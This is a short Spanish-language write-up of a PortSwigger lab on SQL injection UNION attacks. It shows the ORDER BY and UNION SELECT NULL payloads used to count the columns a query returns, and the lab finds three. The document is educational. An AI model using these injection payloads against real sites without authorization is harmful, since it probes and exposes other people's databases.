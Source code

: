```yaml
---
title: SQL injection UNION attack, determining the number of columns returned by the query - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


En este laboratorio debemos obtener el numero de columnas.

![20240802112228.png](20240802112228.png)

Luego de probar que el sitio web es vulnerable podemos enumerar el numero de columnas de la query anterior

```c
Gifts' ORDER BY 3--
```

Podemos hacer uso de `order by` de `union select null,null...`

```c
Gifts' union select null,null,null--
```

![20240802112559.png](20240802112559.png)

Observamos que tenemos 3 columnas.